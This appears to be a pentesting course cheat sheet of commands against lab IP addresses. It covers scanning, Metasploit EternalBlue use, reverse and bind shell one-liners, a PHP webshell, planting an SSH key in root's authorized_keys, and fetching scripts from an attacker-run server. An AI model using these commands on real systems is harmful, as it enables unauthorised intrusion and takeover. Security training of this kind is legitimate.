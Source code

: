 # Cheat Sheet

### Basic Tools

| **Command**                                                                                                             | **Description**                                                                                                                   |
| ----------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| **General**                                                                                                             |                                                                                                                                   |
| <mark style="color:green;">`sudo openvpn user.ovpn`</mark>                                                              | Connect to VPN                                                                                                                    |
| <mark style="color:green;">`ifconfig`</mark><mark style="color:green;">/</mark><mark style="color:green;">`ip a`</mark> | Show our IP address                                                                                                               |
| <mark style="color:green;">`netstat -rn`</mark>                                                                         | Show networks accessible via the VPN                                                                                              |
| <mark style="color:green;">`ssh user@10.10.10.10`</mark>                                                                | SSH to a remote server                                                                                                            |
| <mark style="color:green;">`ftp 10.129.42.253`</mark>                                                                   | FTP to a remote server                                                                                                            |
| **tmux**                                                                                                                |                                                                                                                                   |
| <mark style="color:green;">`tmux`</mark>                                                                                | Start tmux                                                                                                                        |
| <mark style="color:green;">`ctrl+b ctrl+c`</mark>                                                                       | tmux: new window                                                                                                                  |
| <mark style="color:green;">`ctrl+b 1`</mark>                                                                            | tmux: switch to window (<mark style="color:green;">`1`</mark>)                                                                    |
| <mark style="color:green;">`ctrl+%`</mark>                                                                              | tmux: split pane vertically                                                                                                       |
| <mark style="color:green;">`ctrl+"`</mark>                                                                              | tmux: split pane horizontally                                                                                                     |
| <mark style="color:green;">`ctrl+->`</mark>                                                                             | tmux: switch to the right pane                                                                                                    |
| **Vim**                                                                                                                 |                                                                                                                                   |
| <mark style="color:green;">`vim file`</mark>                                                                            | vim: open <mark style="color:green;">`file`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> with vim  |
| `esc+i`                                                                                                                 | vim: enter <mark style="color:green;">`insert`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> mode   |
| `esc`                                                                                                                   | vim: back to <mark style="color:green;">`normal`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> mode |
| `x`                                                                                                                     | vim: Cut character                                                                                                                |
| `dw`                                                                                                                    | vim: Cut word                                                                                                                     |
| `dd`                                                                                                                    | vim: Cut full line                                                                                                                |
| `yw`                                                                                                                    | vim: Copy word                                                                                                                    |
| `yy`                                                                                                                    | vim: Copy full line                                                                                                               |
| `p`                                                                                                                     | vim: Paste                                                                                                                        |
| `:1`                                                                                                                    | vim: Go to line number 1.                                                                                                         |
| <mark style="color:green;">`:w`</mark>                                                                                  | vim: Write the file 'i.e. save'                                                                                                   |
| <mark style="color:green;">`:q`</mark>                                                                                  | vim: Quit                                                                                                                         |
| `:q!`                                                                                                                   | vim: Quit without saving                                                                                                          |
| <mark style="color:green;">`:wq`</mark>                                                                                 | vim: Write and quit                                                                                                               |

### Pentesting

| **Command**                                                                                                      | **Description**                                                       |
| ---------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Service Scanning**                                                                                             |                                                                       |
| <mark style="color:green;">`nmap 10.129.42.253`</mark>                                                           | Run nmap on an IP                                                     |
| <mark style="color:green;">`nmap -sV -sC -p- 10.129.42.253`</mark>                                               | Run an nmap script scan on an IP                                      |
| <mark style="color:green;">`locate scripts/citrix`</mark>                                                        | List various available nmap scripts                                   |
| <mark style="color:green;">`nmap --script smb-os-discovery.nse -p445 10.10.10.40`</mark>                         | Run an nmap script on an IP                                           |
| <mark style="color:green;">`netcat 10.10.10.10 22`</mark>                                                        | Grab banner of an open port                                           |
| <mark style="color:green;">`smbclient -N -L \\\\10.129.42.253`</mark>                                            | List SMB Shares                                                       |
| <mark style="color:green;">`smbclient \\\\10.129.42.253\\users`</mark>                                           | Connect to an SMB share                                               |
| <mark style="color:green;">`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`</mark>                     | Scan SNMP on an IP                                                    |
| <mark style="color:green;">`onesixtyone -c dict.txt 10.129.42.254`</mark>                                        | Brute force SNMP secret string                                        |
| **Web Enumeration**                                                                                              |                                                                       |
| <mark style="color:green;">`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`</mark> | Run a directory scan on a website                                     |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`                            | Run a sub-domain scan on a website                                    |
| `curl -IL https://www.inlanefreight.com`                                                                         | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                                           | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                                                   | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                                                         | View page source (in Firefox)                                         |
| **Public Exploits**                                                                                              |                                                                       |
| `searchsploit openssh 7.2`                                                                                       | Search for public exploits for a web application                      |
| `msfconsole`                                                                                                     | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                                                     | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                                                        | MSF: Start using an MSF module                                        |
| `show options`                                                                                                   | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                                                         | MSF: Set a value for an MSF module option                             |
| `check`                                                                                                          | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                                                        | MSF: Run the exploit on the target server is vulnerable               |
| **Using Shells**                                                                                                 |                                                                       |
| `nc -lvnp 1234`                                                                                                  | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                                            | Send a reverse shell from the remote server                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`                               | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`                                    | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                                             | Connect to a bind shell started on the remote server                  |
| <mark style="color:green;">`python -c 'import pty; pty.spawn("/bin/bash")'`</mark>                               | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                                                      | Upgrade shell TTY (2)                                                 |
| <mark style="color:green;">`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`</mark>              | Create a webshell php file                                            |
| <mark style="color:green;">`curl http://SERVER_IP:PORT/shell.php?cmd=id`</mark>                                  | Execute a command on an uploaded webshell                             |
| **Privilege Escalation**                                                                                         |                                                                       |
| <mark style="color:green;">`./linpeas.sh`</mark>                                                                 | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                                                        | List available `sudo` privileges                                      |
| <mark style="color:green;">`sudo -u user /bin/echo Hello World!`</mark>                                          | Run a command with `sudo`                                             |
| `sudo su -`                                                                                                      | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                                                 | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                                              | Create a new SSH key                                                  |
| <mark style="color:green;">`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`</mark>   | Add the generated public key to the user                              |
| <mark style="color:green;">`ssh root@10.10.10.10 -i key`</mark>                                                  | SSH to the server with the generated private key                      |
| **Transferring Files**                                                                                           |                                                                       |
| `python3 -m http.server 8000`                                                                                    | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                                                         | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                                           | Download a file on the remote server from our local machine           |
| <mark style="color:green;">`scp linenum.sh user@remotehost:/tmp/linenum.sh`</mark>                               | Transfer a file to the remote server with `scp` (requires SSH access) |
| <mark style="color:green;">`base64 shell -w 0`</mark>                                                            | Convert a file to `base64`                                            |
| <mark style="color:green;">`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`</mark>                              | Convert a file from `base64` back to its orig                         |
| <mark style="color:green;">`md5sum shell`</mark>                                                                 | Check the file's `md5sum` to ensure it converted correctly            |
